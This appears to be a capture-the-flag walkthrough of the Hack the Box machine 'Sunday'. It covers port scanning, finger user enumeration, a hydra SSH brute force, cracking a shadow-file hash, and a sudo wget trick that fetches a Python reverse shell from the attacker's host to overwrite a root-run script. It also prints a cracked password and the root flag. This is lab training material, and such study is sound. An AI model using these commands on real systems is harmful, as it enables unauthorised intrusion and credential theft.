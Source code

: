 ```yaml
---
title: Sunday - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sunday.png
---
```

### Scan
```

Host is likely running OpenBSD/Cisco/Oracle


PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer


PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer


PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown


PORT      STATE SERVICE VERSION
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)

```
### Enumeration
finger? - simple network protocols for the exchange of human-oriented status and user information. a relic of a dif time
`finger @10.10.10.76` yields no results, so we can user pentest monkey script for user enum
`./finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76`
Only users with valid IP are sunny and sammy![Image](/assets/Screenshot 2024-10-08 at 4.57.28 PM.png)
We can brute force ssh with hydra and rockyou (or be big brain and use box name)`sunday`
`hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 -s 22022 ssh`
![Image](/assets/Screenshot 2024-10-08 at 5.03.15 PM.png)
SSH in with `ssh sunny@10.10.10.76 -p 22022`
### Priv Esc
root troll priv as sunny?
go to root directory, and go to backup dir. thats not usually there boxo
we find shadow backup and cat it ![Image](/assets/Screenshot 2024-10-08 at 5.07.19 PM.png)
see user sammy hash to crack. (no root, come back later)
`john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash`
`cooldude!`![Image](/assets/Screenshot 2024-10-08 at 5.12.04 PM.png)
ssh to sammy
sudo wget priv as sammy
lets use wget on sammy to overwrite root troll and run it as sunny.
create a reverse py shell (pentest monkey )
serve with py server and overwrite w wget
`sudo wget http://10.10.14.11:8000/tmp.py -0 /root/troll`
![Image](/assets/Screenshot 2024-10-08 at 5.21.53 PM.png)
Then, quickly (5s), execute `sudo /root/troll` as sunny. If your listener is set up, you'll get root.
The script is rewritten every 5 seconds, so be quick!![Image](/assets/Screenshot 2024-10-08 at 5.32.10 PM.png)
ROOT:a50977c381dd35e6a1ee3ee5e7041ce4
